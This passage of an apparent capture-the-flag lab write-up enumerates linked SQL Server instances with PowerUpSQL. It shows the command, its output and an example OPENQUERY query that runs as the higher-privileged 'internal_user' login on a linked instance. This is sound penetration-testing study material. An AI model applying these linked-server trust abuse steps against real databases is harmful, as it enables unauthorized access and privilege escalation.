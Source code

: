 ```
IsExploitable : No
Exploited     : No
ExploitCmd    : Example query: SELECT * FROM OPENQUERY([COMPATIBILITY\POO_CONFIG],'Select ''Server: '' + @@Servername +'' '' + ''Login: '' + SYSTEM_USER')
Details       : The SQL Server link COMPATIBILITY\POO_CONFIG was found configured with the internal_user login.
Reference     : https://msdn.microsoft.com/en-us/library/ms190479.aspx
Author        : Scott Sutherland (@_nullbind), NetSPI 2016
```

Let's explore this further:

```
PS C:\Users\snowscan> get-sqlserverlink -verbose -instance $i -username $user -password $pass
VERBOSE: 10.13.38.11,1433 : Connection Success.


ComputerName           : 10.13.38.11
Instance               : 10.13.38.11,1433
DatabaseLinkId         : 0
DatabaseLinkName       : COMPATIBILITY\POO_PUBLIC
DatabaseLinkLocation   : Local
Product                : SQL Server
Provider               : SQLNCLI
Catalog                :
LocalLogin             : Uses Self Credentials
RemoteLoginName        :
is_rpc_out_enabled     : True
is_data_access_enabled : False
modify_date            : 3/17/2018 1:21:26 PM

ComputerName           : 10.13.38.11
Instance               : 10.13.38.11,1433
DatabaseLinkId         : 1
DatabaseLinkName       : COMPATIBILITY\POO_CONFIG
DatabaseLinkLocation   : Remote
Product                : SQL Server
Provider               : SQLNCLI
Catalog                :
LocalLogin             :
RemoteLoginName        : internal_user
is_rpc_out_enabled     : True
is_data_access_enabled : True
modify_date            : 3/17/2018 1:51:08 PM
```

So using our `external_user`, we can execute commands as `internal_user` on the other DB instance `POO_CONFIG`.

The following blog has an interesting technique to exploit trust in linked servers: [http://www.labofapenetrationtester.com/2017/03/using-sql-server-for-attacking-forest-trust.html](http://www.labofapenetrationtester.com/2017/03/using-sql-server-for-attacking-forest-trust.html)
